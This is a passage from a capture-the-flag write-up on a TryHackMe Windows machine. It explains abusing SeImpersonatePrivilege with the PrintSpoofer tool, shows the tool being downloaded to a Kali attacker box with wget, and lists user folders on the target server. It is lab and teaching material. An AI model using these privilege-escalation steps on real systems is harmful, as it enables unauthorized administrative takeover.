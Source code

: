 We have SeImpersonatePrivilege which allows us to escalate privileges by abusing tokens. Hacktricks has some good information about this [here](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens). It mentions a few exploits, I've used PrintSpoofer before on another THM room called [Relevant](https://pencer.io/ctf/ctf-thm-relevant/) so I went with that.

## PrintSpoofer

Switch to Kali and grab the PrintSpoofer binary:

```text
┌──(root💀kali)-[~/thm/ustoun]
└─# wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe
--2021-05-23 21:35:38--  https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer32.exe
Resolving github.com (github.com)... 140.82.121.4
Connecting to github.com (github.com)|140.82.121.4|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://github-releases.githubusercontent.com/259576481/82057700-f39e-11ea-90a9-983c4000cbf3?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20210523%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20210523T203536Z&X-Amz-Expires=300&X-Amz-Signature=8347c16e4cefff6cdaf990b339cad88b8a2d7f2ee734d628bc35be37a94bddbf&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=259576481&response-content-disposition=attachment%3B%20filename%3DPrintSpoofer32.exe&response-content-type=application%2Foctet-stream [following]
--2021-05-23 21:35:38--  https://github-releases.githubusercontent.com/259576481/82057700-f39e-11ea-90a9-983c4000cbf3?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20210523%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20210523T203536Z&X-Amz-Expires=300&X-Amz-Signature=8347c16e4cefff6cdaf990b339cad88b8a2d7f2ee734d628bc35be37a94bddbf&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=259576481&response-content-disposition=attachment%3B%20filename%3DPrintSpoofer32.exe&response-content-type=application%2Foctet-stream
Resolving github-releases.githubusercontent.com (github-releases.githubusercontent.com)... 185.199.109.154, 185.199.110.154, 185.199.108.154, ...
Connecting to github-releases.githubusercontent.com (github-releases.githubusercontent.com)|185.199.109.154|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 22016 (22K) [application/octet-stream]
Saving to: ‘PrintSpoofer32.exe’
PrintSpoofer32.exe                                          100%[=========================================================>]  21.50K  --.-KB/s    in 0.006s  
2021-05-23 21:35:38 (3.56 MB/s) - ‘PrintSpoofer32.exe’ saved [22016/22016]
```

Now back on the Windows server, first check the path to our home folder:

```text
PS C:\Windows\system32> dir c:\users

    Directory: C:\users

Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
d-----         2/1/2021  11:03 AM                Administrator                                                         
d-r---        1/30/2021   9:15 AM                Public                                                                
d-----         2/1/2021   8:25 AM                SVC-Kerb.DC01    
```
